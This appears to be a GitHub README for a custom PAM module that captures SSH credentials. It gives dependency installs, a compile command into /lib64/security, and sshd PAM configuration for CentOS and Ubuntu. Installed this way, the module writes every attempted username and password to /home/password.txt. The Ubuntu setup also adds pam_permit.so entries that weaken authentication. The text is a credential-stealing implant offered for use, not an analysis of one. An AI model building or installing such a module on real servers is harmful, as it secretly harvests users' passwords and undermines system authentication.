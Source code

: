 # PAM_MY_UNIX

## How to use
- Dependency resolution
   ### CentOS
    ``` sh
    yum intall pam-devel
    ```
    
   ### Ubuntu 
    ``` sh
    apt-get intall libpam-dev
    ```
    
    
- check password file path
    This module will put username/password to `/home/password.txt`, you can change it in `main.c`.
    Just edit `const char *log_filename = "/home/password.txt";` and compile this PAM module.

- compile
    ``` sh
    cc main.c -o /lib64/security/pam_my_unix.so -fPIC -m64 -shared -lpam
    ```

- edit sshd's pam config.
    ### CentOS
    ``` sh
    vim /etc/pam.d/sshd
    ```
    And add the next line after the latest auth interface module:
    ``` sh
    auth sufficient pam_my_unix.so
    account	sufficient	pam_my_unix.so
    ```

    Maybe you file looks like this after you edit it.
    ```
    ...
    auth       required     pam_unix.so nullok
    auth       sufficient   pam_my_unix.so
    account    required     pam_nologin.so
    account    sufficient   pam_my_unix.so
    account    include      password-auth
    ...
    ```

    ### Ubuntu
    ``` sh
    cp /etc/pam.d/common-auth /etc/pam.d/sshd-auth
    vim /etc/pam.d/sshd-auth
    ```
    And the `sshd-auth` file looks like this below:
    ```
    auth	required	pam_unix.so nullok_secure
    auth	sufficient	pam_my_unix.so
    auth	required	pam_permit.so
    auth	sufficient	pam_permit.so
    ```

    And then edit `/etc/pam.d/sshd` and change
    ```
    @include common-auth
    ```
    to
    ```
    @include sshd-auth
    ```

- result
    When someone who is trying to auth via ssh, his username and password will log into a file.

